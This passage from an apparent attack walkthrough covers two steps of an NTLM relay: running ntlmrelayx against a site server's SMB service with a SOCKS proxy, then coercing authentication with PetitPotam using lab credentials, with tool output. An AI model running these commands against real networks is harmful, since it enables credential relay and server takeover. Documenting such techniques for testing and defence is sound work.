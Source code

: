 2. On the attacker relay server, start `ntlmrelayx`, targeting the SMB service on the primary site server identified in the previous step.  The `-socks` flag is used to hold the authenticated session open:
    ```
    └─# python3 ntlmrelayx.py -t smb://TARGET_SITE_SERVER -smb2support -socks
    Impacket v0.10.1.dev1+20230802.213755.1cebdf31 - Copyright 2022 Fortra

    [*] Protocol Client SMB loaded..
    [*] Protocol Client IMAPS loaded..
    [*] Protocol Client IMAP loaded..
    [*] Protocol Client RPC loaded..
    [*] Protocol Client DCSYNC loaded..
    [*] Protocol Client MSSQL loaded..
    [*] Protocol Client LDAPS loaded..
    [*] Protocol Client LDAP loaded..
    [*] Protocol Client SMTP loaded..
    [*] Protocol Client HTTPS loaded..
    [*] Protocol Client HTTP loaded..
    [*] Running in relay mode to single host
    [*] SOCKS proxy started. Listening at port 1080
    [*] IMAPS Socks Plugin loaded..
    [*] MSSQL Socks Plugin loaded..
    [*] HTTP Socks Plugin loaded..
    [*] HTTPS Socks Plugin loaded..
    [*] SMB Socks Plugin loaded..
    [*] IMAP Socks Plugin loaded..
    [*] SMTP Socks Plugin loaded..
    [*] Setting up SMB Server
    [*] Setting up HTTP Server on port 80
    * Serving Flask app 'impacket.examples.ntlmrelayx.servers.socksserver'
    * Debug mode: off
    [*] Setting up WCF Server
    [*] Setting up RAW Server on port 6666

    [*] Servers started, waiting for connections
    ```

3. From the attacker host, coerce NTLM authentication from the passive site server via SMB, targeting the relay server's IP address:

    ```
    ┌──(root㉿DEKSTOP-2QO0YEUW)-[/opt/PetitPotam]
    └─# python3 PetitPotam.py -u lowpriv -p P@ssw0rd <NTLMRELAYX_LISTENER_IP> <PASSIVE_SITE_SERVER_IP> 

    Trying pipe lsarpc
    [-] Connecting to ncacn_np:passive.internal.lab[\PIPE\lsarpc]
    [+] Connected!
    [+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
    [+] Successfully bound!
    [-] Sending EfsRpcOpenFileRaw!
    [-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
    [+] OK! Using unpatched function!
    [-] Sending EfsRpcEncryptFileSrv!
    [+] Got expected ERROR_BAD_NETPATH exception!!
    [+] Attack worked!
    ```
